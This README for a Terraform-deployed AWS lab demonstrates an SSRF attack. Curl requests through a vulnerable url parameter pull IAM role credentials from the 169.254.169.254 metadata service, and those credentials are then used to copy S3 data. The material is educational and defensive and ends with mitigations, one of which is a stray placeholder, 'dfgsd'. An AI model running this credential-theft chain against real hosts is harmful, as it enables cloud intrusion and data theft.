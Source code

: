 # SSRF vulnerablity demo
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white)![Terraform](https://img.shields.io/badge/terraform-%235835CC.svg?style=for-the-badge&logo=terraform&logoColor=white)

## Demo diagram 
![Diagram]()

## Purpose
Demonstrating a Server Side Request Forgery (SSRF) attack in AWS environment , similar to the [CapitalOne breach](https://www.capitalone.com/digital/facts2019/).
The environment will be deployed with Terraform IaC module.



## Prerequisites
* Active AWS account.
* AWS IAM user with AWS credential type: ["Access key - Programmatic access"](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) and [AdministratorAccess](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html)

*  [Terraform installed](https://learn.hashicorp.com/tutorials/terraform/install-cli)
* Clone this repo to the environmnet which you run terraform from : 
```ShellSession
git clone https://github.com/ramibo/ssrf_aws_demo.git 
```

* Optional - In the following files ,set the paramters with your values :  
main.tf : `availability_zone` , `resource "aws_key_pair"{public_key}`  
providers.tf : `shared_config_files`,`shared_credentials_files`, `profile` , `region`



## Running the demo

1. `cd` to the  `ssrf_aws_demo` directory.

2. Run `terraform init` command to prepare your working directory for next commands.

3. Run `terraform validate` command check whether the configuration is valid.

4. Run `terraform plan` command show changes required by the current configuration.

5. Run `terraform apply` / `terraform apply -auto-approve` to create / update the infrastructure at AWS.

6. If there no errors from the prvious steps , from your terminal run the following :
__Important 1__ - The `host` can be the created ec2 instance [Public IPv4 address / DNS ](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/using-instance-addressing.html#concepts-public-addresses). 
__Important 2__ - In the next steps `bash$` prompt with `"command"` is for commands  you need to run.
```ShellSession
bash$ curl -s http://host:5000 
AWS SSRF IMDSv1 demo
```

7. The `/uptime` page is vulnerable to an SSRF attack: 
We will utilize the url parameter with the instance metadata URI --> retrieve the attached iam role --> extract the security credentials as following : 
```ShellSession
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
aws_ssrf_demo_iam_role
bash$ curl -s http://host:5000/uptime?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/aws_ssrf_demo_iam_role
{
  "Code" : "Success",
  "LastUpdated" : "2022-12-20T20:56:29Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIASF",
  "SecretAccessKey" : "Id+zUu",
  "Token" : "IQoJb3JpZ2luX2VjEEUaCXVzLW",
  "Expiration" : "2022-12-21T03:31:14Z"
}
```

8. From the attached role security credentials output you got in your environment,  copy the values of : 
`AccessKeyId` 
`SecretAccessKey` 
`Token`

9. With aws cli - configure a new `aws_ssrf_demo_profile_s3` profile:
```ShellSession
aws configure --profile aws_ssrf_demo_profile_s3
```

10. Set the following parmteres in your `"$HOME/.aws/credentials"` file with the value copied at step 8:
For example ,
```ShellSession
[aws_ssrf_demo_profile_s3]
aws_access_key_id = ASIASF
aws_secret_access_key = Id+zUu
aws_session_token=IQoJb3JpZ2luX2VjEEUaCXVzLW
```

11. Get the data from s3  :
```ShellSession
# Get the list of s3 buckets
bash$ aws s3 ls --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:47 aws-ssrf-demo-s3-bucket

# Get the bucket content
bash$ aws s3 ls aws-ssrf-demo-s3-bucket --profile aws_ssrf_demo_profile_s3 
2022-12-20 22:55:48        403 aws_ssrf_demo_data_file.json

# Create a directory
bash$ mkdir data_from_s3
bash$ cd data_from_s3/
bash$ ls -l
total 0

# Retrive the json file from the bucket
bash$ aws s3 cp s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json /$HOME/data_from_s3/ --profile aws_ssrf_demo_profile_s3 
download: s3://aws-ssrf-demo-s3-bucket/aws_ssrf_demo_data_file.json to ./aws_ssrf_demo_data_file.json

bash$ ls -l
total 8
-rw-r--r--  1 user  group  403 Dec 20 22:55 aws_ssrf_demo_data_file.json


!!! The SSRF attack was sucessfull !!!
```

12. Run `terraform destroy` / `terraform destroy -auto-approve` to remove the infrastructure created at AWS.
## Mitigation Steps

1. Enabling IMDS version 2 of the service

2. Fix the application by sanitize/validate all client-supplied input data.

3. dfgsd

## Refrences
* [FreeCodeCamp - Learn Terraform (and AWS) by Building a Dev Environment – Full Course for Beginners](https://www.youtube.com/watch?v=iRaai1IBlB0)
* [An SSRF, privileged AWS keys and the Capital One breach](https://blog.appsecco.com/an-ssrf-privileged-aws-keys-and-the-capital-one-breach-4c3c2cded3af)
* [How to hack AWS instances that have the metadata service (IMDSv1) enabled](https://alexanderhose.com/how-to-hack-aws-instances-with-the-metadata-service-enabled/)